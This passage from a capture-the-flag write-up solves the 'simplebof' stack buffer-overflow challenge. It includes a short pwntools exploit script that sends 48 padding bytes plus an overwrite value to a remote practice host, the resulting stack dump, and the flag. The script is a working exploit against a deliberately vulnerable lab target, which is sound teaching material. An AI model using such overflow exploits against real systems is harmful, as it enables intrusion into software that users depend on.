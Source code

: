 After sending it payloads of different values we see that `48` characters is what it takes to get to the secret variables contents and we begin overwriting them.

Now we just create a script that will send `48` characters and then the value we want to overwrite it with (in little endian format) and we get the flag.

 

```python
from pwn import *
# Secret value which we want to overwrite
# p32 function packs the value in a little endian format
secret = p32(0x67616c66)

padding = b"\x41" * 48

p = remote("thekidofarcrania.com", 35235)

p.recv()

p.sendline(padding+secret)

p.interactive()
```

```bash
root:simplebof/ # python3 exploit.py 
[+] Opening connection to thekidofarcrania.com on port 35235: Done
[*] Switching to interactive mode
Legend: buff MODIFIED padding MODIFIED
  notsecret MODIFIED secret MODIFIED CORRECT secret
0xff8fc838 | 00 00 00 00 00 00 00 00 |
0xff8fc840 | 00 00 00 00 00 00 00 00 |
0xff8fc848 | 00 00 00 00 00 00 00 00 |
0xff8fc850 | 00 00 00 00 00 00 00 00 |
0xff8fc858 | ff ff ff ff ff ff ff ff |
0xff8fc860 | ff ff ff ff ff ff ff ff |
0xff8fc868 | ef be ad de 00 ff ff ff |
0xff8fc870 | c0 e5 6d f7 84 2f 64 56 |
0xff8fc878 | 88 c8 8f ff \x1b[0;37m11 0b 64 56 |
0xff8fc880 | a0 c8 8f ff 00 00 00 00 |

Input some text: 
Legend: buff MODIFIED padding MODIFIED
  notsecret MODIFIED secret MODIFIED CORRECT secret
0xff8fc838 | 41 41 41 41 41 41 41 41 |
0xff8fc840 | 41 41 41 41 41 41 41 41 |
0xff8fc848 | 41 41 41 41 41 41 41 41 |
0xff8fc850 | 41 41 41 41 41 41 41 41 |
0xff8fc858 | 41 41 41 41 41 41 41 41 |
0xff8fc860 | 41 41 41 41 41 41 41 41 |
0xff8fc868 | 66 6c 61 67 00 ff ff ff |
0xff8fc870 | c0 e5 6d f7 84 2f 64 56 |
0xff8fc878 | 88 c8 8f ff 11 0b 64 56 |
0xff8fc880 | a0 c8 8f ff 00 00 00 00 |

You did it! Congratuations!
CTFlearn{buffer_0verflows_4re_c00l!}
[*] Got EOF while reading in interactive
```
